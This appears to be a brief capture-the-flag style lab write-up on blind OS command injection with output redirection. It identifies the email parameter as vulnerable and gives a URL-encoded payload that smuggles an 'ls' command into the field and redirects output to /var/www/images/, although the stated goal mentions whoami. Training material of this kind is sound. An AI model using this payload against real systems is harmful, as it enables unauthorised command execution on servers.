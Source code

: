 # Lab: Blind OS command injection with output redirection

Target : exploit command injection and redirect the output from `whoami` command to `/var/www/images/`

Analysis :

the vulnerable parameter is email
the payload `ayahaga%40gmail.com+%26+ls+>+/var/www/images/file.txt+%23`
